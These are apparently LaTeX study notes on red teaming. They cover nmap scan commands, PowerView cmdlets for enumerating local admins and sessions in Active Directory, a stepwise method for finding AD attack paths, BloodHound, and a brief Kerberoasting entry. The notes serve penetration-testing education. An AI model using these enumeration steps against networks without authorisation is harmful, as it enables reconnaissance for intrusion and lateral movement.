\section{Red Teaming}\label{sec:redteam}
Das Red Team führt realitätsnahe Cyber-Angriffe gegen Kunden Infrastruktur und - Dienste durch. 
Es versetzt sich in die Denk- und Handlungsweise eines Gegners, um dadurch neue Erkenntnisse über die eigenen Schwächen zu erlangen und mitigierende Massnahmen einleiten zu können. 

 \subsection{Ziel}
\paragraph{Schwächen und Risiken aufzeigen}
Schwachstellen finden bevor echte Hacker diese ausnutzen.
\paragraph{Blue Team trainieren}
SOC, CSIRT \& Betrieb mit realitätsnahen Szenarien konfrontieren und Schwächen in Fähigkeiten und Abläufen identifizieren.

\subsection{Unterschied zu Blue Team}

\includegraphics[width=\linewidth]{red-vs-blue-team.png}

\subsection{Code of Conduct}

\includegraphics[width=\linewidth]{code-of-onduct.png}

\subsection{Audit vs. Red Team}

\includegraphics[width=\linewidth]{redteam-vs-audit.png}

\subsection{Initial Access}

\includegraphics[width=\linewidth]{initial-access.png}

\subsection{Tools}

\subsubsection{Active Directory Users \& Computers (ADUC)}
Every domain user can access the ADUC, no admin needed.\\

\includegraphics[width=\linewidth]{ADUC.png}\\
\paragraph{Alternative}
When you don't have ADUC, use Sysinternals tools.
When establishing the connection, if you don't enter anything, you'll connect to the current domain with the
current user, no need for password.
You can do snapshots of a domain and analyse them offline later.\\

\includegraphics[width=\linewidth]{ad-explorr.png}

\subsubsection{Net Tools}
See Chapter \ref{par:nettools}.

\subsubsection{WMI}
See Chapter \ref{par:wmi}.

\subsubsection{Ping Castle}
See Chapter \ref{par:ping-castle}.


\subsubsection{nmap}
\paragraph{Scan for devices}
To get a rough idea about the hosts in our network.
\begin{lstlisting}
  nmap -n -sn 10.0.1.0/24 -oA host_discovery --min-rate=20000
\end{lstlisting}

\paragraph{Version scan}
Performs a more detailed nmap scan against the live hosts to identify running services and additional information.
\begin{lstlisting}
  nmap -n -sC -sV -iL hosts.txt -oA script_version_scan --min-rate=20000
\end{lstlisting}

\paragraph{Parameters}
Check the nmap cheat sheet for more.
\begin{itemize}
  \item \textbf{iL}: Just scan the IPs in the file
  \item \textbf{sV}: Determine service version
  \item \textbf{sC}: Equivalent to -script=default
  \item \textbf{oA}: Output the three major formats at once
\end{itemize}


\subsubsection{PowerSploit}
PowerSploit is a collection of Microsoft PowerShell modules that can be used to aid penetration testers during all phases of an assessment.
PowerView can also modify the AD in some ways.
This is also used by BloodHound under the hood.

\paragraph{Enumerating local admins using GPOs}
Domain users can remotely enumerate local admins on Computers (configured by GPO) by querying the GPOs on a Domain Controller.\\

\includegraphics[width=\linewidth]{powerview-local-admin.png}
\subparagraph{Uses:}
\begin{itemize}
  \item \textbf{Get-DomainGPO}: enumerate all GPOs that apply to a particular machine or user
  \item \textbf{Get-DomainGPOLocalGroup}: enumerate all GPOs that modify local group memberships through GPO
  \item \textbf{Get-DomainGPOUserLocalGroupMapping}: enumerate user-to-computer local admin relations defined via GPO
\end{itemize}

\paragraph{Enumerating local admins using Local Groups}
Domain users can remotely enumerate local admins on Computers (configured locally) by querying the MS-SAMR RPC server exposed by any Computer in a domain.
\begin{itemize}
  \item \textbf{Get-NetLocalGroup}: enumerate local group information (requires Admin)
  \item \textbf{Get-NetLocalGroupMember}: enumerate local group membership (requires Admin)
\end{itemize}

\paragraph{Enumerating Sessions}
Domain users can remotely enumerate active user sessions on computers in a domain by querying the MS-SRVS SMB-RPC server exposed by any Computer in a domain.
\begin{itemize}
  \item \textbf{Get-NetSession}: enumerate SMB sessions on a remote Computer (uses the NetSessionEnum Win32 API call) (requires Admin)
  \item \textbf{Get-NetLoggedon}: enumerate LoggedOn users on a remote Computer (uses the NetWkstaUserEnum Win32 API call) (requires Admin)
\end{itemize}

\paragraph{Find AD-based attack paths}
\begin{enumerate}
  \item What is my target?: Identify ComputerNames that we need to compromise in order to (b)reach our target
  \item Who has control on the target?: Identify local administrator accounts that have full privilege on the target computers
  \begin{itemize}
    \item Get-NetLocalGroupMember -ComputerName <computer>
    \item Get-DomainGPOUserLocalGroupMapping [-Domain <domain>]
  \end{itemize}
  \item Where is the person who has control?: Identify active Sessions of these administrator accounts on system we could target next
  \begin{itemize}
    \item Get-NetSession -ComputerName <computer>
    \item Find-DomainUserLocation [-Domain <domain>]
  \end{itemize}
\end{enumerate}

\subsubsection{Bloodhound}
BloodHound uses graph theory to reveal the hidden and often unintended relationships within an Active Directory environment.
Adversaries use BloodHound to identify highly complex attack paths that would otherwise be impossible to identify efficiently.
Defenders can use BloodHound as well to identify and eliminate those same attack paths.

\paragraph{Example attack paths}

\includegraphics[width=\linewidth]{attack-path.png}\\

\includegraphics[width=\linewidth]{attack-path-2.png}


\subsubsection{Kerberoasting}
Get service ticket for user/service with SPN set and crack its password\\
